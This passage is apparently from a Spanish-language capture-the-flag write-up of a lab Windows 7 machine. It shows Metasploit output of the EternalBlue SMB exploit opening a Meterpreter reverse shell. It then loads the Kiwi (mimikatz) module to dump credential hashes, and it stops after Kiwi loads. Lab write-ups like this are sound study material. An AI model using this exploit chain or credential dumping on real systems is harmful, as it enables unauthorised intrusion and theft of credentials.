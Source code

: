 ```bash
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (X.X.X.X:4444 -> 10.10.10.40:49158) -0600
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
.
meterpreter > sysinfo
Computer        : HARIS-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

Listo, hemos obtenido acceso a la máquina de 3 formas distintas, es momento de ver que podemos hacer en las **Post Explotación**.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


En esta parte, vamos a recolectar información útil del sistema tanto en el **Metasploit Framework** como de forma libre.

<h2 id="mimik">Dumpeando Hashes con Módulo Kiwi en Metasploit Framework</h2>

Para usarlo, debemos cargar el **módulo Kiwi**:
```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```
